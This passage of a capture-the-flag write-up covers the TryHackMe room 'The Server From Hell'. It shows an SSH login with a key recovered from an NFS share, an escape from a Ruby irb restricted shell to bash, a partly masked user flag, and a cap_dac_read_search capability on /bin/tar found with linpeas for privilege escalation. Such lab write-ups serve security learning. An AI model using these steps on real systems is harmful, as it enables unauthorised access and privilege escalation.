 ## Shell as hades
```console
local@local:~/Documents/tryhackme/theserverfromhell/nfs/home/hades/.ssh$ ssh -i id_rsa hades@10.10.105.19 -p 3333

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Last login: Tue Nov  3 15:50:21 2020 from 10.6.31.213

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0> 
```
This time we log in. But we get a weird shell. Looks like it is running ruby.

### Getting a bash shell
```console
 irb(main):001:0> system('/bin/bash')
hades@hell:~$
```
## Reading User flag
```console
hades@hell:~$ ls -la
total 28
drwxr-xr-x 3 root  root  4096 Sep 15 22:11 .
drwxr-xr-x 6 root  root  4096 Sep 15 22:11 ..
-rw-r--r-- 1 hades hades  220 Sep 15 22:11 .bash_logout
-rw-r--r-- 1 hades hades 3771 Sep 15 22:11 .bashrc
-rw-r--r-- 1 hades hades  807 Sep 15 22:11 .profile
drwx------ 2 hades hades 4096 Sep 15 22:11 .ssh
-rw-r--r-- 1 hades hades   30 Sep 15 22:11 user.txt
hades@hell:~$ cat user.txt 
thm{sh3ll_****************_1337}
```

I ran linpeas.sh to find out the potential privilege escalation vector and one entry of linux capability on /bin/tar caught my eye.
### Linux Capabilities on /bin/tar
```console
hades@hell:~$ getcap /bin/tar
/bin/tar = cap_dac_read_search+ep
```
This capability will help us to bypass file read permission checks and directory read and execute permission checks. It is well explained in [this](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) article.
